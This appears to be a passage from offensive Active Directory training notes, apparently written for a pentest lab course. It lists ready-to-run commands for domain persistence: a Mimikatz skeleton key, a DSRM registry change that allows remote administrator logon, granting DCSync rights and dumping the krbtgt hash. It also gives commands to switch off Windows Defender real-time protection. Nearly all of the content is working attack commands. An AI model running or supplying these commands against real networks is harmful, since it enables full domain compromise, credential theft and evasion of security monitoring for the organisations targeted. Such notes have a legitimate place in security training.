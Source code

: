 ```
net start AbyssWebServer
```

# Domain Persistence
## Mimikatz skeleton key attack
Run from DC. Enables password "mimikatz" for all users (noisy).
```
privilege::debug
misc::skeleton
```
Or:
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```
Use Enter-PSSession to access any many as any user untill the DC is restarted.
```
Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Credential dcorp\administrator
```

## Domain Controller DSRM attack
The DSRM admin is the local administrator account of the DC. Remote logon needs to be enabled first:
```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```
Now we can login remotely using the local admin hash dumped on the DC before (with lsadump::sam, see 'Dumping secrets with Mimikatz'). Use e.g. 'overpass the hash' to get a session (see 'Mimikatz' above).

## DCSync
Check replication rights:
```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ? {($_.IdentityReference -match "studentx") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```
Grant specific user DCSync rights with PowerView:
```
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName student124 -Rights DCSync -Verbose
```
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# Post-Exploitation
## Disable defender
```
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```
